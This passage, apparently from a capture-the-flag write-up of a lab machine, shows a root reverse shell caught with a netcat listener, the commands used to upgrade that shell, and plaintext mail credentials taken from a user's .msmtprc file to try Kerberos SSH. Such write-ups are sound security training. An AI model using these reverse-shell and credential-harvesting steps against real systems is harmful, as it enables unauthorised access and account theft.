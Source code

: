 Almost instantly after sending the last `.`, we recieve a reverse shell as root on the SMTP server. Before we continue our flag hunt we upgrade the shell and fix the terminal size.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.162.100.
Ncat: Connection from 10.129.162.100:58146.
bash: cannot set terminal process group (13): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
root@smtp:~# export TERM=xterm
export TERM=xterm
root@smtp:~# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@smtp:~# stty rows 55 cols 236
```

## SSH with Kerberos

In the mail-client configuration in j.nakazawa's home directory we find some credentials, which unfortunately don't work with ssh.

```php
root@smtp:/home/j.nakazawa# cat .msmtprc 
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp 
```

Since kerberos is also enabled on the machine we try to use it to authenticate over ssh  next by creating a ticket using the password and the username.
